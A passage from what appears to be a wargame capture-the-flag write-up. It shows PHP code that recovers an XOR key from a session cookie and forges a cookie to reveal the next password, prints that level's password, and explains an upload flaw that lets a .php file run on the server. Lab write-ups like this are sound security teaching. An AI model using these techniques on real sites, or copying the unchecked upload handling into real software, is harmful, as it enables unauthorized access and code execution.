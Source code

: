 In our case, by looking the `data` in the cookie, we can see that it ends with `%3D`, which is the URL decode for `=`. When working with the data, we need to URL decode it, so we replace the end of the data with `=`.

So, can see the original data being XOR encrypted in the code (`array("showpassword"=>"no", "bgcolor"=>"#ffffff")`) and we have the output of the encryption (the `data` in our cookie), so we can xor them find the encryption key.

```php
<?php
$data = "HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=";
$originalData = array("showpassword"=>"no", "bgcolor"=>"#ffffff");
print json_encode($originalData) ^ base64_decode($data);
?>
```
The output of this is `eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe`, so the key to the encryption is `eDWo`. Now that we know the encryption key, we can craft our own cookie data so that when the server encrypts it, `showpassword` field will be set to `"yes"`.

```php
<?php
$key = "eDWo";
$data = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
$xorData = "";
for($i = 0; $i < strlen($data); $i++) {
        $xorData .= $data[$i] ^ $key[$i % strlen($key)];
}
$cookie = base64_encode($xorData);
print $cookie
?>
```
We clone the encryption process of the server, but manipulate the cookie `data` so `showpassword` will be set to `"yes"`. To test it, I first tried it on the original data, when `showpassword` is set to `"no"`, and i got the exact `data` in the cookie, so it works. We set the cookie `data` with the output of this function and refresh, and we got the next password.

Password: `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`

## Level 12 → 13
This time the page wants us to upload an `JPEG` image. Looking at the given source code, we can see the `PHP` code for handling the uploaded file. The server gets the file and it's name, generates a random name for the file and saves it in a path that the user can access. What's interesting here is this function:
```php
function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}
```
`$fn` is the file name given by the user. The server extract the extension of the file and creates the new file on the server with the same extension. It means that if we uploaded a file with `.jpg` extension, the extension of the file that the server creates will also be `.jpg`. But, if we upload a `.php` file, the file on the server also will be a `.php` file, and we will be able to run a `php` code.
